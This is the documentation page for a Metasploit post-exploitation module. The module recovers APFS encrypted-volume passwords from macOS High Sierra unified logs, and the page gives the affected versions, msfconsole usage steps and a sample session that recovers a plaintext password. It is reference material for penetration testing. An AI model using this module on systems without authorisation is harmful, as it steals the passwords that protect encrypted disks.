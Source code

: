 ## Vulnerable Application

This module uses a vulnerability in macOS High Sierra's `log` command. It uses the logs of the Disk Utility app to recover the password of an APFS encrypted volume from when it was created. 

  * macOS 10.13.0
  * macOS 10.13.1
  * macOS 10.13.2
  * macOS 10.13.3*


  \* On macOS 10.13.3, the password can only be recovered if the drive was encrypted before the system upgrade to 10.13.3. See [here](https://www.mac4n6.com/blog/2018/3/21/uh-oh-unified-logs-in-high-sierra-1013-show-plaintext-password-for-apfs-encrypted-external-volumes-via-disk-utilityapp) for more info

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use post/osx/gather/apfs_encrypted_volume_passwd`
  3. Do: set the `MOUNT_PATH` option if needed
  4. Do: ```run```
  5. You should get the password

## Options

### MOUNT_PATH

  `MOUNT_PATH` is the path on the macOS system where the encrypted drive is (or was) mounted. This is *not* the path under `/Volumes`

## Scenarios

  Typical run against an OSX session, after creating a new APFS disk using Disk Utility:

```
msf5 exploit(multi/handler) > use post/osx/gather/apfs_encrypted_volume_passwd
msf5 post(osx/gather/apfs_encrypted_volume_passwd) > set SESSION -1
SESSION => -1
msf5 post(osx/gather/apfs_encrypted_volume_passwd) > exploit

[+] APFS command found: newfs_apfs -i -E -S aa -v Untitled disk2s2 .
[+] APFS command found: newfs_apfs -A -e -E -S secretpassword -v Untitled disk2 .
[*] Post module execution completed
msf5 post(osx/gather/apfs_encrypted_volume_passwd) >
```
